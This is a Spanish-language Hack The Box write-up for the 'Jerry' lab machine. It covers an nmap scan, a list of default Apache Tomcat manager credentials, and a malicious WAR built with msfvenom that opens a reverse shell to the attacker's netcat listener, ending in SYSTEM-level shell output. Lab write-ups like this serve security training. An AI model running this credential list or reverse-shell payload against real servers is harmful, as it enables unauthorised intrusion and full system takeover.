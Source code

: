 ```yaml
---
layout: single
title: HTB-Jerry
excerpt: "WriteUp de la máquina HTB Jerry Type: Easy"
date: 2022-04-05
classes: wide
header:
  icon: /assets/images/hackthebox.webp
  teaser_home_page: true
  teaser: /assets/images/writeups/jerry/jerry.png
categories:
  - WriteUps
tags:
  - HTB
  - Easy

---
```

<centre><img src="/assets/images/writeups/jerry/jerry.png"></centre>

[Maquina](https://app.hackthebox.com/machines/Jerry) 


## Reconocimiento

```bash
sudo nmap -sCV --min-rate 5000 -Pn 10.10.10.95 
```

```bash
Nmap scan report for 10.10.10.95
Host is up (0.041s latency).
Not shown: 999 filtered tcp ports (no-response)
PORT     STATE SERVICE VERSION
8080/tcp open  http    Apache Tomcat/Coyote JSP engine 1.1
|_http-title: Apache Tomcat/7.0.88
|_http-favicon: Apache Tomcat
|_http-open-proxy: Proxy might be redirecting requests
|_http-server-header: Apache-Coyote/1.1
```

Al mirar el resultado del nmap, vemos que el puerto **8080** tiene un http abierto con **Apache Tomcat** al cual accederemos a el.

<centre><img src="/assets/images/writeups/jerry/panel1.png"></centre>

Nos encontramos un panel de tomcat dónde en la parte de la derecha tenemos un link a la **managment app** la cual podemos clickar y ver que pasa.

<centre><img src="/assets/images/writeups/jerry/panel2.png"></centre>

Nos encontramos un panel de login en el cual podemos intentar iniciar sesion con las credenciales por defecto de este software.

```txt
Username:assword

admin:password
admin:
admin:Password1
admin:password1
admin:admin
admin:tomcat
both:tomcat
manager:manager
role1:role1
role1:tomcat
role:changethis
root:Password1
root:changethis
root:password
root:password1
root:r00t
root:root
root:toor
tomcat:tomcat
tomcat:s3cret
tomcat:password1
tomcat:password
tomcat:
tomcat:admin
tomcat:changethis
```

Vemos que las credenciales correctas son **tomcat:s3cret**.

<centre><img src="/assets/images/writeups/jerry/panel3.png"></centre>

En el caso de que salirte del panel de credenciales nos sale una página de error con las credenciales correctas.

<centre><img src="/assets/images/writeups/jerry/panel4.png"></centre>

Ahora, tenemos un control panel donde podemos subir archivos **.war**


## Explotación

Procedemos a la creacion de un archivo **.war** con **msfvenom** para devolvernos una reverseshell a nuestra máquina desde la víctima para poder controlarla.

```bash
msfvenom -p java/jsp_shell_reverse_tcp LHOST=10.10.14.6 LPORT=443 -f war -o reverse.war
```

Lo subimos a la web y le damos a deploy.

<centre><img src="/assets/images/writeups/jerry/panel5.png"></centre>

Nos ponemos en escucha con netcat y ejecutamos el war desde la **url**

```bash
nc -lvp 443 #netcat

http://10.10.10.95:8080/reverse #url
```

Obtenemos la reverseshell:

```txt
connect to [10.10.14.6] from (UNKNOWN) [10.10.10.95] 49193
Microsoft Windows [Version 6.3.9600]
(c) 2013 Microsoft Corporation. All rights reserved.

C:\apache-tomcat-7.0.88>
```

Comprobamos que usuario somos:

```powershell
C:\apache-tomcat-7.0.88>whoami
        whoami
nt authority\system

C:\apache-tomcat-7.0.88>
```

Flag de los **Usuarios**:
```powershell
C:\Users\Administrator\Desktop\flags>dir
dir
 Volume in drive C has no label.
 Volume Serial Number is 0834-6C04

 Directory of C:\Users\Administrator\Desktop\flags

06/19/2018  07:09 AM    <DIR>          .
06/19/2018  07:09 AM    <DIR>          ..
06/19/2018  07:11 AM                88 2 for the price of 1.txt
               1 File(s)             88 bytes
               2 Dir(s)   2,419,703,808 bytes free

C:\Users\Administrator\Desktop\flags>
```